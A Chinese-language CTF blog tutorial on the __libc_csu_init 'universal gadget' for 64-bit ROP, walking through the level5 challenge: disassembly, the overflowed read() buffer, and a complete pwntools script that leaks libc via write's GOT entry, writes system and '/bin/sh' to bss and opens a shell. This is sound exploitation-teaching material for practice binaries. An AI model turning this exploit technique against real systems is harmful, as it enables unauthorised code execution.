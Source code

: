 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      PWN通用gadget学习 		 # 标题 
subtitle:   __libc_csu_init               # 副标题
date:       2018-07-30 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
    - PWN
---
```


# PWN,__libc_csu_init通用gadget学习
>例题下载:[蒸米level5](/files/pwn/level5.zip)

__libc_csu_init函数是在libc初始化的时候用到的函数,所以在使用libc的文件中都会出现他  
  
在做64位的pwn题目的时候,函数的传参都是需要用到寄存器的  
>从第⼀一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递  

但是我们在rop的时候不一定可以控制全部的寄存器,可能会导致参数无法完全传递,这时候就可以利用__libc_csu_init来进行调用函数

首先来看函数的汇编  
```
.text:00000000004005A0 ; void _libc_csu_init(void)
.text:00000000004005A0                 public __libc_csu_init
.text:00000000004005A0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005A0
.text:00000000004005A0 var_30          = qword ptr -30h
.text:00000000004005A0 var_28          = qword ptr -28h
.text:00000000004005A0 var_20          = qword ptr -20h
.text:00000000004005A0 var_18          = qword ptr -18h
.text:00000000004005A0 var_10          = qword ptr -10h
.text:00000000004005A0 var_8           = qword ptr -8
.text:00000000004005A0
.text:00000000004005A0 ; __unwind {
.text:00000000004005A0                 mov     [rsp+var_28], rbp
.text:00000000004005A5                 mov     [rsp+var_20], r12
.text:00000000004005AA                 lea     rbp, cs:600E24h
.text:00000000004005B1                 lea     r12, cs:600E24h
.text:00000000004005B8                 mov     [rsp+var_18], r13
.text:00000000004005BD                 mov     [rsp+var_10], r14
.text:00000000004005C2                 mov     [rsp+var_8], r15
.text:00000000004005C7                 mov     [rsp+var_30], rbx
.text:00000000004005CC                 sub     rsp, 38h
.text:00000000004005D0                 sub     rbp, r12
.text:00000000004005D3                 mov     r13d, edi
.text:00000000004005D6                 mov     r14, rsi
.text:00000000004005D9                 sar     rbp, 3
.text:00000000004005DD                 mov     r15, rdx
.text:00000000004005E0                 call    _init_proc
.text:00000000004005E5                 test    rbp, rbp
.text:00000000004005E8                 jz      short loc_400606
.text:00000000004005EA                 xor     ebx, ebx
.text:00000000004005EC                 nop     dword ptr [rax+00h]
.text:00000000004005F0
.text:00000000004005F0 loc_4005F0:                             ; CODE XREF: __libc_csu_init+64↓j
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
.text:00000000004005F9                 call    qword ptr [r12+rbx*8]
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
.text:0000000000400606
.text:0000000000400606 loc_400606:                             ; CODE XREF: __libc_csu_init+48↑j
.text:0000000000400606                 mov     rbx, [rsp+38h+var_30]
.text:000000000040060B                 mov     rbp, [rsp+38h+var_28]
.text:0000000000400610                 mov     r12, [rsp+38h+var_20]
.text:0000000000400615                 mov     r13, [rsp+38h+var_18]
.text:000000000040061A                 mov     r14, [rsp+38h+var_10]
.text:000000000040061F                 mov     r15, [rsp+38h+var_8]
.text:0000000000400624                 add     rsp, 38h
.text:0000000000400628                 retn
.text:0000000000400628 ; } // starts at 4005A0
.text:0000000000400628 __libc_csu_init endp
```
需要注意的是 每个不同版本的 汇编可能都不同

下面来看分析  
显然在0x0400606之后我们可以控制rbx,rbp,r12,r13,r14,r15  
在0x04005F0中
```
r15 --> rdi  
r14 --> rsi
r13 --> edi
```
这里要注意的是 虽然只能够控制rdi的低32位,但实际上rdi的高32位也是0(可以自行调试)
在这里我们就可以控制rdi,rsi,rdi。并且可以调用r12所指的函数(要注意调用时要使用got地址)  

```
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
```
这一处我们只需要使rbx + 1 = rbp就可以了  
我们就使用最简单的rbx = 0,rbp = 1  
  
溢出函数:
```c
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

payload编写:  
1. 确定padding:0x88  
2. 编写csu利用函数


```python
def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += 'A'*(7*8)
    payload += p64(main)
    s.sendline(payload)
```

这里需要注意 我们在覆盖完ret后,要先写入8字节将rsp覆盖到rsp+8。在控制完rbx,rbp等以后跳转到上方调用函数。在调用完之后,我们仍然需要覆盖ret,所以要往stack上继续覆盖8*8*7字节(6个寄存器+1个垃圾字节),因为要多次利用,所以要将ret覆盖为main

3. 利用write,leak出偏移地址
```python
write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")
```

4. 将system地址与/bin/sh写入bss  
   因为我们没有system_got的地址,所以我们需要首先把system_symbols写入bss,然后再通过csu调用bss来执行
```python
read_got = elf.got['read']
bss = 0x601038
csu(0,1,read_got,0,bss,16)
system = libc.dump("system") + offset
sleep(1)
s.send(p64(system))
s.send("/bin/sh\x00")
```
这里记得手动延时一下,不然可能会出现程序还没read,我们数据就已经发上去的情况

5. 调用system,GetShell
```python
csu(0,1,bss,bss+8,0,0)
s.interactive()
```

完整code:
```python
#-*-coding=utf-8-*-

from pwn import *
from LibcSearcher import LibcSearcher
from time import sleep

s = process("./level5")
elf = ELF("./level5")
padding = 'A'*0x88
csu_end = 0x0400606
csu_start = 0x04005F0
main = 0x0400564

def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += '\x00'*(7*8)
    payload += p64(main)
    s.sendline(payload)

write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")

read_got = elf.got['read']
bss = 0x601038
system_addr = libc.dump("system") + offset
csu(0,1,read_got,0,bss,16)
sleep(1)
s.send(p64(system_addr))
s.send("/bin/sh\0")
print "send success"
csu(0,1,bss,bss+8,0,0)
s.interactive()
```


